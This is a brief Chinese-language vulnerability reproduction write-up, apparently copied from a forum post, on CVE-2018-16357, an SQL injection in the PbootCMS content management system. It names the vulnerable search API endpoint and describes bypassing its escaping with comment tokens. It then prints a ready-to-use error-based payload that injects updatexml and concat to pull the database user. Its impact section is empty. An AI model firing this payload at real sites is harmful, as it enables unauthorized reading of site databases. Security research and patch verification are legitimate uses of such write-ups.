



# （CVE-2018-16357）PbootCMS sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3068](https://www.zhihuifly.com/t/topic/3068)

# （CVE-2018-16357）PbootCMS sql注入漏洞

## 一、漏洞简介

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。 PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

## 三、复现过程

```
http://www.0-sec.org/api.php/Cms/search?#acode=1&num=1&order=1 
```

参数$field是我们可以控制的，去检查函数过滤器



使用函数trim和escape字符串避免sql注入



添加a'会导致mysql语法错误，因此函数escape\u字符串无效



使用/**/绕过

### payload:

```
field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1 
```